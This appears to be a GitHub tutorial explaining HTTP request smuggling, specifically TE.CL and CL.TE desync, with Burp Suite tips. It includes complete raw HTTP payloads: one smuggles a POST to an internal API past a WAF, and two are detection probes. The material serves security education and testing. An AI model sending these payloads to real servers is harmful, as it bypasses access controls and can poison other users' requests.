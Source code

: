 # HTTPRequestSmuggling
ELI5/ Deep Dive - HTTTP Request Smuggling


## TL;DR - What is it?
Read: https://portswigger.net/web-security/request-smuggling

### Why write this article?
IMO, the explanation given on portswigger, while good, glosses over some details, as well as encourages the use of the HTTPRequestSmuggling extension in Burp, which does not help in the understanding of the nature of this vulnerability.

## Lets dive!

#### So why exactly is this dangerous from a security perspective?

Most modern web application infrastructure consists of one or many load balancers/WAFs, which sit in front of actual application servers. Typically, the trust model for these is that traffic to the load balancer from the outside internet is seen as unsafe, but traffic from the load balancer to the application server or from the application server itself is safer as it has made it past the load balancer security controls.

Consider this: In the below diagram, we see some sort of WAF/Load Balancer that sits in front of several API gateways. If the infrstructure is such that the assumption is that illegitemate/unsafe traffic is prevented from hitting the API's via the WAF, then smuggling requests past the WAF enable us to send requests to API endpoints that we were not allowed to send requests from outside the security perimeter.

![Alt text](images/application.png "Application")

## Example
The following POST request is an example of smuggling a POST request to an internal API named `secure-API` In this case, we are dealing with the load balancer accepting the `Transfer-Encoding` header, and the API accepting the `Content-Length` this is called a `TE.CL` attack.

```
POST / HTTP/1.1
Host: test.mysite.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://somesite.net
DNT: 1
Connection: close
Cookie: session=F9Rf9fqjQ37lLSBDd3EHEpehDygMs75i
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

68
POST /secure-API HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

foo=ba
0


```
Sending this request twice will have the intended affect of POST'ing `foo=bar` to the `secure-API` resource.

### Why does this work?
1. The first evaluation is by the load balancer that supports the `Transfer-Encoding` header, it observes that the length of the body of the request should be 104 chars long, <b> the `Transfer-Encoding` length is specified in Hex hence `68` </b> which is the decimal equivalent of 104. Thus the first chunk ends at the beginning of the line that contains 0 <b>(remember each newline also counts as a byte!)</b>b. The second chunk is processed as 0 which is read as the end of the request
2. The request is forwarded to a server that then supports `Content-Length` which sees that the request body should only be 3 bytes long, however what isn't shown to us is that after each line of text in the body of the request, there is a `\r\n` which counts for 2 bytes ([Read more on that here](https://en.wikipedia.org/wiki/List_of_HTTP_header_fields))

Given that each line is delimited with `\r\n` and given 3 bytes to work with, the server reads up to the end of `68\r`

The remaining 

```
\n
POST /secure-API HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

foo=ba
0
```
Is left on the server and will prepend any incoming request!
<b>PLEASE NOTE:</b> The `\n` character is not typically shown in the body of requests but has been shown ehre for illistration purposes


### Enumeration
* The following are some tips and tricks for finding this vulnerability given a CL.TE, TE.CL, and TE.TE 
* Assuming you are using Burp Suite as a proxy for your requests

#### CL.TE
* Front end: `Content-Length` 
* Back end: `Transfer-Encoding`

<b>Sample payload to test for this vulnerability:</b>

```
POST / HTTP/1.1
Host: testsite.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: testsite.net
DNT: 1
Connection: close
Cookie: session=QMTalM9bAXDIzKysRmDNfI8VyGbvcBcl
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Transfer-Encoding: chunked

0

GGGG
```
<b> Things to remember for CL.TE</b>
* In Burp MAKE SURE that `Update Content Length` is checked in the repeater menu, this is the opposite for a TE.CL vulnerability
* Make sure that the request ends AS IS, this is also opposite a TE.CL vulnerability where you want to add two returns at the end of the request.

<b>What to look for</b>
The payload `GGGG` Should be left on the server and will prepend incoming requests, so the server should respond after the second request with a 400 error and a message like `"Unrecognized method GGGGPOST"`

#### TE.CL

* Front end: `Transfer-Encoding` 
* Back end: `Content-Length`

<b>Sample payload to test for this vulnerability:</b>

```
POST / HTTP/1.1
Host: test.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: test.site
DNT: 1
Connection: close
Cookie: session=x9ptL2cydDdz9hu8XYCTeVhJruYH5Ehu
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
<b> Things to remember for TE.CL</b>
* Notice that below 0 in the second POST request there are 2 newlines, if you are testing in Burp you need to add those MANUALLY by hitting Enter twice
* Make sure that the `Update Content-Length` option is unchecked in the repeater menu

<b>What to look for:</b> Since this test payload POST's to `/404` the first request to the server should return a `200 OK` and the second request should return a ` 404 not found` 


